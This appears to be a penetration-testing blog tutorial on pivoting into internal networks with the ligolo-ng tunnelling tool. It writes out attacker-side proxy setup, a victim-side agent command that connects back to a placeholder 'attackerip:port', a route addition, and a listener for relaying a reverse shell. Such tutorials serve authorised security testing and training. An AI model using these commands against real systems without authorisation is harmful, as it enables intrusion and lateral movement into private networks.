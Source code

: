 ```yaml
---
layout: post
date: 2023-07-07
title: "Pivoting with ligolo"
categories: [pivoting]
tags: [ligolo, pivoting]
---
```


Pivoting is an essential part of penetration testing. Once you gain an initial foothold there may be several subnets that the outside world may not have access to and will give you further access into the domain by leveraging a tool such as ligolo which can be downloaded from [Github](https://github.com/Nicocha30/ligolo-ng). 

In order to leverage this tool you will need to download it via `git clone https://github.com/nicocha30/ligolo-ng.git` .  It also worth noting that ligolo does not use SOCK5, but instead ligolo uses GVISOR and thus is much faster than a SOCKS proxy, mimicing a VPN.

You can then proceed to start, add and start the proxy server via these  commands.

Attacker Machine:
```shell
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
chmod + proxy
./proxy -autocert
```
It is also worth noting that you can change the port it listens on, as by default it will listen on port 11601.

```shell
./proxy -selfcert -laddr 0.0.0.0:443
```


![](/assets/images/ligolo/1.png)

Victim Machine (Windows or Linux):

Upload the respective file. 
```shell
./agent -connect attackerip:port -ignore-cert
```
The -ignore-cert will be required if you use -selfcert.

![](/assets/images/ligolo/2.png)

You must run a few more commands on the Attacker Machine from within the proxy prompt in order to get your tunnel running.
```shell
session (session number)
start
```
Once all of this is done you will be able to run commands from your attacker machine as if you are in the internal network. On this network there is an internal networked connect which I can verify by typing ifconfig.
![](/assets/images/ligolo/3.png)

For this machine you must also run ```
```shell
sudo ip route add 192.168.110.0/24 dev ligolo
```

Now on the Attacker Machine but another terminal I can run pings on the internal network on the victims machine.

![](/assets/images/ligolo/4.png)

You can also gain a revshell back to your client by adding a listener to your host.

This must be done from the attacker machine.
```shell
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
```



